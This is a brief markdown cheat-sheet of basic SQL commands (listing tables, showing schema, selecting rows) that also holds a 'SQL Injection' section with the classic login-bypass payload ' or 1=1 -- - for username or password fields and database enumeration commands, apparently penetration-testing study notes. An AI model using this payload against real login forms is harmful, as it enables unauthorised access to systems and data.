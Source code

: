 ```yaml
---
category: Uncategorized
tags: []
---
```

Basic SQL Queries

Listing tables:

~~~sql
.tables
~~~

Showing Contents of Specific Tables:

~~~sql
PRAGMA table_info(TABLENAME);
~~~

Showing information from Specific Tables:

~~~sql
SELECT * from tablename;
~~~

SQL Injection

Simple SQLi query for use in Username or Password field

~~~sql
' or 1=1 -- -
~~~

~~~sql
SHOW DATABASES;

USE database;

SHOW TABLES;

DESCRIBE table;

SELECT field FROM table-content;
~~~

